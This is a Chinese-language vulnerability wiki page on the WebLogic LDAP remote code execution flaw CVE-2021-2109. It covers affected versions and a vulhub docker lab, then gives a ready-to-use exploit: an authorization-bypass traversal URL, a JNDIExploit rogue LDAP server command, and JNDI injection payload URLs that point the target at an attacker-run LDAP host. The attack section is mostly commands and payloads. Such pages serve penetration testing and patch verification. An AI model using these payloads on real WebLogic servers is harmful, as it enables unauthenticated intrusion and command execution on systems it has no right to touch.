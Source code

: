 ```yaml
---
Title: Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109
---
```


# Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

## 漏洞描述

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

<a-checkbox checked>WebLogic Server 10.3.6.0.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.1.3.0.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.2.1.3.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.2.1.4.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 14.1.1.0.0</a-checkbox></br>

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://xxx.xxx.xxx.xxx:7001` 正常即可

![img](/assets/PeiQi-Wiki/img/1627122357513-3368f5c9-1557-48c9-965c-478ae4d5867a.png)



## 漏洞复现

访问一下URL `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`

![img](/assets/PeiQi-Wiki/img/1627122379832-ab7a422e-fc91-4e0a-8c74-ae1b27ee365a.png)

如果有此页面未授权可访问，且在影响范围内则可能出现漏洞, 下载漏洞攻击需要的 LDAP启动脚本

![img](/assets/PeiQi-Wiki/img/1627122389252-7e57ec2f-7b8c-40a6-9a93-af57d117aeec.png)



下载到服务器上启动

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![img](/assets/PeiQi-Wiki/img/1627122394942-2d2aefd9-5ed1-4d18-b721-f1b7c936263b.png)

然后配合 Weblogic未授权范围 命令执行

```plain
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

<a-alert type="success" message="注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;" description="" showIcon>
</a-alert>

<br/>

![img](/assets/PeiQi-Wiki/img/1627122414874-e7efeca4-04b4-46a6-b4d7-273500602833.png)

登录后台可使用此POC，未授权的话用上面的

```plain
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

